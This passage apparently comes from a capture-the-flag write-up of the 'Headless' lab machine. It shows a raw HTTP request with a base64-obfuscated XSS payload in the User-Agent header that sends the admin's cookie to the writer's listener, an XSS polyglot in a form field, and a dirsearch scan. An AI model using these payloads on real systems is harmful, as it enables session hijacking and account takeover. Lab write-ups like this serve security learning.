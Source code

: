 ```bash
python -m http.server 80
```

Next we sent the following request.

```
POST /support HTTP/1.1
Host: 10.129.222.226:5000
User-Agent: <svg onload='eval(atob("Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly8xMC4xMC4xNi4yNy9URVNUP2M9Jytkb2N1bWVudC5jb29raWU7Ckh0dHAub3BlbigiR0VUIiwgdXJsKTsKSHR0cC5zZW5kKCk7CgpIdHRwLm9ucmVhZHlzdGF0ZWNoYW5nZSA9IChlKSA9PiB7CiAgY29uc29sZS5sb2coSHR0cC5yZXNwb25zZVRleHQpCn0="));' 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 323
Origin: http://10.129.222.226:5000
Connection: close
Referer: http://10.129.222.226:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=test&lname=test&email=test%40me.com&phone=test&message=jaVasCript%3A%2F*-%2F*%60%2F*%5C%60%2F*%27%2F*%22%2F**%2F%28%2F*+*%2FoNcliCk%3Dalert%28%29+%29%2F%2F%250D%250A%250d%250a%2F%2F%3C%2FstYle%2F%3C%2FtitLe%2F%3C%2FteXtarEa%2F%3C%2FscRipt%2F--%21%3E%5Cx3csVg%2F%3CsVg%2FoNloAd%3Dalert%28%29%2F%2F%3E%5Cx3e%0D%0A%0D%0A
```

A few moments later we'd get access to the Administrators cookies

![Token stolen](/assets/img/Headless/Headless_05.png)

Now we have access to an admin token but when loading this token in our browser we wouldn't get any hint of other pages we can go to. So i assumed that we had to discover these. I decided to run dirsearch on the webserver. This would result in me finding out that dashboard is also a valid url.

```bash 
dirsearch -u http://10.129.222.226:5000  -t 500 -r -f
```

![Dirsearch](/assets/img/Headless/Headless_06.png)
